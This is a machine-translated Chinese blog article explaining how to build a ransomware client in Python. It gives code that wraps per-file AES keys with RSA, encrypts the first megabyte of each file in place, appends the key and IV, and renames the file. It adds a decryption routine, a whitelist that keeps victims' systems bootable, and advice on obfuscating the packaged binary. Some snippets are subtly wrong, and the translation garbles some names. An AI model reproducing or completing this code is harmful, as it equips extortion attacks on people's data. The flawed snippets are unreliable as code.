






# 勒索软件的架构(2/2)

> 原文：<https://infosecwriteups.com/architecture-of-a-ransomware-2-2-e22d8eb11cee?source=collection_archive---------0----------------------->

在第 1 部分([https://securityshenanigans . medium . com/architecture-of-a-ransomware-1-2-1b 9 fee 757 fcb](https://securityshenaningans.medium.com/architecture-of-a-ransomware-1-2-1b9fee757fcb))中，我们解释了理解高效勒索软件如何工作所必需的关键概念。在这一部分中，我们将用一些 python 代码来说明其中的一些概念。我们还将探讨 pycryptodome python 库在加密方面的基本用法。我不会公布完整的源代码，因为我不想帮助脚本小子对他们的犯罪生涯。本文的目的只是分享关于勒索软件的知识，它不应该被用于恶意活动。

## 总则

有多个开源勒索软件可用，在阅读勒索软件开发时，我偶然发现了一个很棒的勒索软件，叫做 [GonnaCry](https://github.com/tarcisio-marinho/GonnaCry) ，作者是 [Tarcísio Marinho](https://medium.com/u/ea2f2c25847b?source=post_page-----e22d8eb11cee--------------------------------) 。代码非常清晰，我强烈建议您查看一下。
他的勒索软件包含了“管理方”的所有代码。他实际上编码了攻击端的服务器，它将管理解密密钥，与被感染的客户端通信，以及更换壁纸。
我不想深入这方面，因为我编写的所有代码都是为了了解勒索软件是如何工作的，而现实生活中的每一种勒索软件都以不同的方式处理这方面的事情。您可能有一个自动服务来注册付款和发送解密密钥。你可能有一个 Tor 邮箱地址，可以直接和受害者互动。您甚至可能有一个系统允许客户端提交几个样本文件来验证您可以解密它们。无论您有什么，这在每个活动中都有所不同，因此编写这部分代码不在我的范围之内。我主要关注客户端感染方面。

## 选择的语言

我选择 python 有几个原因。最主要的一点是它非常容易阅读和理解。



它也可以是跨平台的，只要避免使用特定于操作系统的指令(比如用 os.system 调用的指令)。它也很快，并且有我们需要执行的大多数加密操作的库。最后，它允许你混淆编译后的代码，我们这样做是为了更难对最终的二进制文件进行逆向工程。

在评估 python 库时，您可能会发现做同样事情的多个导入。研究每一种方法并选择最常用的方法总是一种谨慎的方法，特别是当它涉及到一个快速变化的主题时，如密码学。你不会希望你的勒索软件仅仅因为你用了和过时的库就被解密，甚至更糟的是，[你开发了自己的加密方案，就像 Lockcrypt 做的](https://blog.malwarebytes.com/threat-analysis/2018/04/lockcrypt-ransomware/) ( [不要这么做](https://security.stackexchange.com/questions/18197/why-shouldnt-we-roll-our-own))。我们将使用两个已知的 python 库: [pycryptodome、](https://pypi.org/project/pycryptodome/)和 [secrets](https://docs.python.org/3/library/secrets.html) 。

> 注意:在实践中，您有包装器为您完成非对称+对称的组合加密(比如 [asymcrypt](https://pypi.org/project/asymcrypt/) )。然而，我将使用直接的 pycryptodome 并创建每个函数来更好地说明概念。


## 必要功能概述

*   generate32ByteKey():生成一个随机的 32 字节密钥。有多种方法可以做到这一点。你可以从/dev/urandom 中获取一个字符串并对其求和，但是这将依赖于 linux，并且我们想要跨平台地做这件事，所以我们将使用 python 的 [secrets](https://docs.python.org/3/library/secrets.html) 库。这可以通过 secrets.token_hex(32)来实现。
*   rsarencryptsecret(string，publicKey):这将使用公钥不对称地加密一个秘密(这样它只能用私钥解密)。这将允许我们用我们的公钥加密为每个文件生成的对称密钥。客户端将需要我们的 privateKey 来解密每个文件的对称密钥，然后用它自己的对称密钥解密每个文件。
*   rsaDecryptSecret(secret，privateKey):这将使用私有非对称密钥对加密的对称密钥进行解密。
*   symEncryptFile(publicKey，File):这个函数是最复杂的一个，因为它包含加密逻辑。这将在下面进一步解释，但顾名思义，它是用来加密文件的。
*   symDecryptFile(privateKey，File):解密一个文件。
*   symEncryptDirectory(publicKey，dir):这个函数将接收一个目录作为参数，并递归地遍历它以获取其中的所有文件。之后，它将使用公钥调用 symEncryptFile。
*   symDecryptDirectory(privateKey，dir):类似于 symEncryptDirectory，但是反过来…

## rsaEncryptSecret

这将使用 RSA 加密密钥。默认情况下，RSA 加密没有任何随机性，因此我们将使用[最优非对称加密填充](https://en.wikipedia.org/wiki/Optimal_asymmetric_encryption_padding)(简称 OAEP)，这是一种填充方案，它改进了基本 RSA，增加了随机性和[单向置换陷门](https://en.wikipedia.org/wiki/Trapdoor_function)。请记住，当使用 RSA 和 OAEP 时，得到的密码大小应该与模数相同。而模数就是密钥大小/ 8。我们使用 2048 位 RSA，所以得到的密文应该是 256 字节。

这里有一个简单的代码片段来实现这一点。

```
def rsaEncryptSecret(string, publicKey):
  public_key = get_key(publicKey, None)
  # Create the cipher object
  cipher_rsa = PKCS1_OAEP.new(public_key)
  # We need to encode the string to work with bytes instead of chars
  bytestrings = str.encode(string)
  cipher_text = cipher_rsa.encrypt(bytestrings)
  #At this point the cipher_text should be 256 bytes in length
  # We'll base64 encode it for convenience
  # Remember that a base64 string needs to be divisible by 3, so 256 bytes will become 258 with padding 
  return base64.b64encode(cipher_text)
```



来源:[https://stack overflow . com/questions/13378815/base64-length-calculation](https://stackoverflow.com/questions/13378815/base64-length-calculation)

## RsaDecryptSecret

这将使用提供的密钥解密密文。

```
def rsaDecryptSecret(string, privateKey):
  # We firts import the private Key
  private_key = get_key(privateKey, None)
  # Decode the base64 encoded string
  base64DecodedSecret = base64.b64decode(string)
  # create the cipher object
  cipher_rsa = PKCS1_OAEP.new(private_key)
  # Decrypt the content
  decryptedBytestrings = cipher_rsa.decrypt(base64DecodedSecret)
  # Remember to convert the decoded cipher from bytes to string
  decryptedSecret = decryptedBytestrings.decode()
  return decryptedSecret
```

## SymEncryptFile

这将是主要的加密功能。事情是这样的:

1.  使用公钥和文件路径作为参数调用函数

```
def symEncryptFile(publicKey, file):
```

2.为这个特定文件生成一个随机密钥

```
key = generateKey()
```

3.用公钥加密随机密钥。

```
encriptedKey = rsaEncryptSecret(key, publicKey)
```

4.定义文件的加密大小(n 字节)。在本例中，我们将使用 1MB。

```
buffer_size = 1048576
```

5.检查文件是否已经加密，如果是，忽略它。

```
if file.endswith("." + cryptoName):
 print('File is already encrypted, skipping')
 return
```

6.加密文件的前 n 个字节并覆盖其内容。

```
# Open the input and output files
 input_file = open(file, 'r+b')
 print("Encrypting file: "+ file)
 output_file = open(file + '.' + cryptoName, 'w+b')# Create the cipher object and encrypt the data
 cipher_encrypt = AES.new(key, AES.MODE_CFB)# Encrypt file first
 input_file.seek(0)
 buffer = input_file.read(buffer_size)
 ciphered_bytes = cipher_encrypt.encrypt(buffer)input_file.seek(0)
input_file.write(ciphered_bytes)
```


7.将加密的随机密钥附加到文件的末尾。

```
input_file.seek(0, os.SEEK_END)
input_file.write(encriptedKey.encode())
```

8.将 [AES IV(初始化向量)](https://en.wikipedia.org/wiki/Initialization_vector)附加到文件末尾。

```
input_file.seek(0, os.SEEK_END)
input_file.write(cipher_encrypt.iv)
```

9.重命名文件以识别它。

```
input_file.close()
 os.rename(file, file + "." + cryptoName)
```


解密后文件结构的粗略模型

请注意，我们并不需要复制整个文件，我们只是在 file 对象上使用了`seek()`方法来导航字节，使这个过程尽可能快。这也将在解密函数中使用。

还要注意，由于我们在加密文件中写入了 AES IV 和加密密钥，我们不需要任何类型的 txt 文件来跟踪每个加密文件。受害者可以向我们发送任何文件，只要我们有用于特定二进制文件的私钥，我们就能解密它。



## 符号解密文件

这将是主要的解密函数。事情是这样的:

1.  使用 privateKey 和文件路径作为参数调用函数

```
def symDecryptFile(privateKey, file):
```

2.定义文件的解密大小(n 字节)(等于加密中使用的大小)。在我们的例子中，我们使用 1MB。

```
buffer_size = 1048576
```

3.验证该文件已加密(带扩展名)。

```
if file.endswith("." + cryptoName):
        out_filename = file[:-(len(cryptoName) + 1)]
        print("Decrypting file: " + file)
    else:
        print('File is not encrypted')
        return
```

4.打开文件并读取 AES IV(最后 16 个字节)。

```
input_file = open(file, 'r+b')# Read in the iv
    input_file.seek(-16, os.SEEK_END)
    iv = input_file.read(16)
```

5.读取加密的解密密钥。这将是

```
# we move the pointer to 274 bytes before the end of file
# (258 bytes of the encryption key + 16 of the AES IV)
input_file.seek(-274, os.SEEK_END)
# And we read the 258 bytes of the key
secret = input_file.read(258)
```

6.用提供的私钥解密加密的密钥

```
key = rsaDecryptSecret(cert, secret)
```

7.解密我们之前定义的 aes 加密的缓冲区大小，并将其写入文件的开头

```
# Create the cipher object
cipher_encrypt = AES.new(privateKey, AES.MODE_CFB, iv=iv)                                                                                                                            
# Read the encrypted header                                                                                              
input_file.seek(0)                                                                                                                                                            
buffer = input_file.read(buffer_size)                                                                                                                                         
# Decrypt the header with the key
decrypted_bytes = cipher_encrypt.decrypt(buffer) 
# Write the decrypted text on the same file                                                                                                                             
input_file.seek(0)                                                                                                                                                            
input_file.write(decrypted_bytes)
```

8.从文件末尾删除 iv +加密密钥，并将其重命名。

```
# Delete the last 274 bytes from the IV + key.                                                                                                                                             
input_file.seek(-274, os.SEEK_END)                                                                                                                                            
input_file.truncate()                                                                                                                                                         
input_file.close() 
# Rename the file to delete the encrypted extension                                                                                                                                                           
os.rename(file, out_filename)
```

## 最终考虑

有了所有这些功能，您可以创建一个二进制文件，让您加密或解密您选择的文件夹。如果您正确地编写了 symEncryptDirectory/symDecryptDirectory 函数，您可以只选择参数文件夹/文件的加密或解密，并只传递一个. pem 文件。在主调用之前，二进制文件上会有类似这样的内容。

```
parser = argparse.ArgumentParser()parser.add_argument("--dest", "-d", help="File or directory to encrypt/decrypt", dest="destination", default="none", required=True)parser.add_argument("--action", "-a", help="Action (encrypt/decrypt)", dest="action", required=True)

parser.add_argument("--pem","-p", help="Public/Private key", dest="key", required=True)
```

除了明显的错误验证缺失(检查“加密”操作是否有作为参数传递的公钥，“解密”操作是否有私钥，等等)，您必须为每个操作系统定义一个文件/文件夹的“白名单”。你需要这样做，以保持电脑“可用”但被加密。如果您刚开始加密看到的每个文件，您可能会:

1.让用户无法使用计算机，他们会意识到出了问题。加密所有内容后，系统不会启动，用户也不会知道自己受到了勒索软件的攻击。

举个例子，在 Linux 中，白名单类似于这样:

```
whitelist = ["/etc/ssh", "/etc/pam.d", "/etc/security/", "/boot", "/run", "/usr", "/snap", "/var", "/sys", "/proc", "/dev", "/bin", "/sbin", "/lib", "passwd", "shadow", "known_hosts", "sshd_config", "/home/sec/.viminfo", '/etc/crontab', "/etc/default/locale", "/etc/environment"]
```

你可能会想打包。py 脚本及其所有依赖项，并将其捆绑到一个可执行文件中。我不打算一步一步的展示，但是你可以调查一下 [pyarmor](https://pypi.org/project/pyarmor/) 和 [pyinstaller](https://www.pyinstaller.org/) 。此外，根据您想要使用的混淆类型(以及二进制文件的类型)， [Nuitka](https://github.com/Nuitka/Nuitka) 可能会有很大的帮助。

## 其他类型的勒索软件(MBR 加密)

还有另一种我们没有接触过的勒索软件，它们会感染你硬盘的主引导记录。这反过来允许它运行一个有效负载，该有效负载将加密文件系统的 NTFS 文件表，这将使磁盘不可用。这种方法非常快速，因为恶意软件只需要加密一小部分数据。[pet ya 勒索软件是这种设计的一个很好的例子。](https://en.wikipedia.org/wiki/Petya_(malware))它有三个主要缺点:
第一个是，即使操作系统无法启动，你仍然可以通过取证分析恢复你的文件。它们不会被删除，只是在文件表中被取消引用。即使恶意软件在重新启动计算机后开始对原始数据进行加密，如果受害者只是关闭计算机并取出磁盘，通过一些取证分析，这些文件应该是可以恢复的。
第二个缺点是[大多数现代操作系统不再使用 MBR，因为它们已经迁移到 GPT](https://www.howtogeek.com/193669/whats-the-difference-between-gpt-and-mbr-when-partitioning-a-drive/) (GUID 分区表)。
第三个缺点是它严重依赖于文件系统，并且需要修改以适应其他不像 NTFS 的文件系统类型(想想 EXT3/EXT4，ZFS 等等)。这种方法需要更多的底层技术概念，我不想把这篇文章扩展太多。此外，这种方法不是最常用的，我写这篇文章的主要目的是让读者更好地了解“常见”的勒索软件。

## 结论/一般性建议

除了你应该知道的明显的常见建议(不要打开未知来源的附件，保持基础设施更新，运行反恶意软件等)，我可以推荐的主要预防技术是备份、备份和备份…你会听到很多关于如何防止攻击的建议，但**在我看来**，最好是始终假设你最终会被感染，并对你的数据进行离线备份。


即使您受过 100%识别恶意载体的训练，您组织的某个用户也可能不是，这就是加密所有映射的共享驱动器所需的全部内容。

> 最后，有一点我没见过有人推荐:如果你被感染了，并且加密的文件不需要马上恢复(家庭照片、视频等)，试着保留一份加密文件的副本。有时，恶意软件开发者要么退休( [Shade](https://www.zdnet.com/article/shade-troldesh-ransomware-shuts-down-and-releases-all-decryption-keys/) 、 [TeslaCrypt](https://www.jdsupra.com/legalnews/teslacrypt-ransomware-developers-retire-60100/) 、 [HildaCrypt](https://www.bleepingcomputer.com/news/security/hildacrypt-ransomware-developer-releases-decryption-keys/) )，要么被捕( [CoinVault](https://www.kaspersky.com/blog/coinvault-in-court/23123/) )，甚至公布其竞争对手的密钥( [Petya vs Chimera](https://blog.malwarebytes.com/cybercrime/2016/07/keys-to-chimera-ransomware-leaked/) )，在所有这些情况下，解密密钥都可能被公布。你可能会很幸运，在几个月后恢复你的文件。



阴影创作者的退休信。



TeslaCrypt 创作者的退休信。



HildaCrypt 发布密钥。

这个帖子到此为止。我希望这是有帮助的，并且你现在有更好的工具来应对你的下一次勒索！